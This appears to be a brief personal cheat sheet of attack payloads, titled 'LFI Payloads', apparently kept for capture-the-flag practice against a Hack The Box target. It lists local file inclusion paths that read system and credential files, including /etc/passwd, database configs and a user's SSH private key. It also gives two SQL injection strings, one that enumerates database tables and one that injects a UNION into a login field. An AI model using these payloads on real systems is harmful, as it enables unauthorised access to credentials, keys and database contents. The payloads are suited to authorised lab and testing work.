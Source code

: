 # LFI Payloads

1. /etc/passwd
2. /etc/apache2/sites-enabled/000-default.conf
3. /etc/mysql/my.cnf
4. /etc/mysql/mariadb.cnf
5. /home/user/.ssh/id_rsa

union+select+TABLE_NAME,TABLE_SCHEMA,TABLE_CATALOG+from+information_schema.tables+--+-
admin%2540europacorp.htb'union+select+1,2,3,4,5--+-
